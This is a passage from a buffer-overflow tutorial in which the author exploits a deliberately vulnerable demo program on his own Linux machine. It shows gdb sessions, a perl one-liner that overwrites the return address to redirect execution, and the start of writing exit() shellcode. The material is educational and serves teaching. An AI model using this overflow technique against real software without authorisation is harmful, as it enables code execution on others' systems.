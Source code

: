     0xbffff9f2:     0x2a91ebf3      0x0000c060      0x00000000      0x00000000
    0xbffffa02:     0x86600000      0x2f7db7ff      0x0ff4b7ea      0x0002b800
    (gdb) x/1 $esp-264
    0xbffff888:     0x41414141
    (gdb) quit
    tim@blue:~/devel/buffer_overflows_101$

So we know to set EIP to 0xbffff888 - but we need some code to do something rather than just 'A's! Note the bytes that land of EIP just be in reverse byte order, as I'm working on a Intel machine.

    tim@blue:~/devel/buffer_overflows_101$ rm core &amp;&amp; ./vuln `perl -e 'print "A"x260 . "\\x88\\xf8\\xff\\xbf"'`
    before call
    argument was: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�
    Segmentation fault (core dumped)
    tim@blue:~/devel/buffer_overflows_101$ gdb ./vuln ./core
    GNU gdb 6.6-debian
    Copyright (C) 2006 Free Software Foundation, Inc.
    GDB is free software, covered by the GNU General Public License, and you are
    welcome to change it and/or distribute copies of it under certain conditions.
    Type "show copying" to see the conditions.
    There is absolutely no warranty for GDB.  Type "show warranty" for details.
    This GDB was configured as "i486-linux-gnu"...
    Using host libthread_db library "/lib/tls/i686/cmov/libthread_db.so.1".

    warning: Can't read pathname for load map: Input/output error.
    Reading symbols from /lib/tls/i686/cmov/libc.so.6...done.
    Loaded symbols for /lib/tls/i686/cmov/libc.so.6
    Reading symbols from /lib/ld-linux.so.2...done.
    Loaded symbols for /lib/ld-linux.so.2
    Core was generated by `./vuln AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'.
    Program terminated with signal 11, Segmentation fault.
    #0  0xbffff888 in ?? ()
    (gdb) quit
    tim@blue:~/devel/buffer_overflows_101$

Cool, now lets write some shellcode! OK just a simple one to start with; we're call exit() with a given status code so we can prove the shellcode has executed. Our vuln app can only return a status of 0 (see the code)

    tim@blue:~/devel/buffer_overflows_101$ ./vuln d00d
    before call
    argument was: d00d
    after call
    tim@blue:~/devel/buffer_overflows_101$ echo $?
    0
    tim@blue:~/devel/buffer_overflows_101$

The easiest way to write shellcode is to write what you want to do in C and take the machine code out of it...
